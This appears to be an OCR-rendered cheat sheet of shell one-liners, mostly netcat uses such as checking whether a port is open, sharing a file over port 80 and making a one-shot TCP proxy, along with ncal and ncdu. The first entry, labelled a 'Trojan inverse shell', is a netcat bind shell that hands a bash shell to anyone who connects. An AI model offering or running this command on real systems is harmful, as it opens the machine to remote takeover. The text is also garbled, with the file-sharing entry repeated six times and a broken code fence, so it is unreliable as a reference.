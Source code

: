 ##### Trojan inverse shell
```sh
nc -l -p 2000 -e /bin/bash
```

##### determine if tcp port is open
```sh
nc -zw2 www.example.com 80 && echo open
```

##### Complete TCP Handshake on a given host-port
```sh
nc -zvw 1 host port
```

##### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```

##### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```

##### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```

##### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```

##### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```

##### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```

##### Show the date of easter
```sh
ncal -e
```

##### Create a single-use TCP (or UDP) proxy
```sh
nc -l -p 2000 -c "nc example.org 3000"
```

##### ncdu - ncurses disk usage
```
```sh
ncdu directory_name
```
